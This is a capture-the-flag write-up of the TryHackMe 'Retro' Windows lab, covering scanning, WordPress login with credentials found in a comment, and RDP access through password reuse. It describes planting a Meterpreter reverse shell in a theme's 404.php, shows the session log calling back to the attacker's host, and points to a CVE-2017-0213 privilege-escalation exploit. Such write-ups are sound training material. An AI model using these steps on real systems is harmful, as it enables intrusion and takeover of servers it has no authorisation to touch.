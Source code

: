 ```yaml
---
title: THM - Retro
description: Write-up for THM Retro room
author: z3nn
date: 2020-10-18 21:38:09 +0300
categories: [Hacking, TryHackMe]
tags: [windows,  ctf,  privesc,  thm,  hacking,  security,  pentest,  retro]
---
```


# TryHackMe - Retro
A write-up to the Retro machine provided by [TryHackMe](https://tryhackme.com/). This machine is part of the `Offensive Pentesting` learning path from THM in the `Extra Credit` Section being rated as a `Hard` difficulty.... Let's get to it.

# Recon

```
# Nmap 7.80 scan initiated Sun Oct 18 21:41:47 2020 as: nmap -sS -sV -A -Pn -p- -T5 --script=default,vuln -oA retro 10.10.75.210
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.75.210
Host is up (0.048s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-10-18T18:43:31+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-10-17T18:37:37
|_Not valid after:  2021-04-18T18:37:37
|_ssl-date: 2020-10-18T18:46:17+00:00; -1s from scanner time.
|_sslv2-drown: 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016 (89%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   48.36 ms 10.11.0.1
2   48.63 ms 10.10.75.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct 18 21:46:20 2020 -- 1 IP address (1 host up) scanned in 273.12 seconds
```

Not much to see in this scan... only 2 ports open. Going on port 80 we see a basic Windows IIS Webpage... but from the machine description we already know there's a hidden directory somewhere... so we're going to fire up gobuster and see what we can find

```
gobuster dir --url http://10.10.75.210/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.75.210/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/10/18 21:41:32 Starting gobuster
===============================================================
/retro (Status: 301)
```

So we have a `retro` directory... With a quick scroll we can see / know the following:
- it's a wordpress blog -> there's a `/wp-login.php` link in the footer
- there's a user `Wade` which will most likely be our way in

There's 2 ways to actually get in this user account.

## Brute force the credentials
We already know the user is `Wade` we just have to find the right password. Either use `rockyou.txt` and wait however long 'till it finds the good password or use `cewl` to generate a custom password list.

## More recon...
Since `cewl` gets us the good password also it means that somwhere on this blog that password is written down somehow... So we have to look around for it. To be honest I really didn't feel like having a long lecture about retro games but I randomly clicked on one post and then I saw something __interesting__

Wade commented on one of the posts `Ready Player One` and if we look there he just left a random __note to self__ with the word `parzival`. 


# Foothold
Foothold was a bit interesting since I started up on a path that I normally take when seeing wordpress apps... I logged in with `Wade:parzival` credentials and went straight for the theme editor. with the help of [PenTest.WS](https://pentest.ws/) I created a `php/meterpreter/reverse_tcp` php shell that I manually added in the `404.php` page. Started a Metasploit TCP Listener and just went to a random link to get the 404 page. It worked... I'm in... something... I got in the user under which the web application was running

```
[*] Meterpreter session 1 opened (10.11.14.38:9090 -> 10.10.75.210:52759) at 2020-10-18 22:10:13 +0300

meterpreter > getuid
Server username: IUSR (0)
meterpreter > sysinfo
Computer    : RETROWEB
OS          : Windows NT RETROWEB 10.0 build 14393 (Windows Server 2016) i586
Meterpreter : php/windows

```

After about 30 minutes of trying stuff, trying to break out from this user and into `Wade` I realized there's something I didn't try... One common issue with users is `password reuse`, so if he was using that password for his wordpress account... what else could he used it for ?

Since this is a Windows machine I'm going to use `xfreerdp` to try and connect into this machine as `Wade`
```
xfreerdp /u:wade /v:10.10.75.210
```
It worked! we're in.

![windows_desktop](/assets/img/posts/thm_retro_windows_desktop.png)

From here on you can pretty much upload a meterpreter shell to benefit from the post exploitation modules within `Metasploit` and either get the flag now from RDP or get it after from meterpreter.

# PrivEsc

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

PrivEsc was pretty straight forward, using `CVE-2017-0213` - everything needed is found in [this github repo](https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

Get root flag and GTFO.
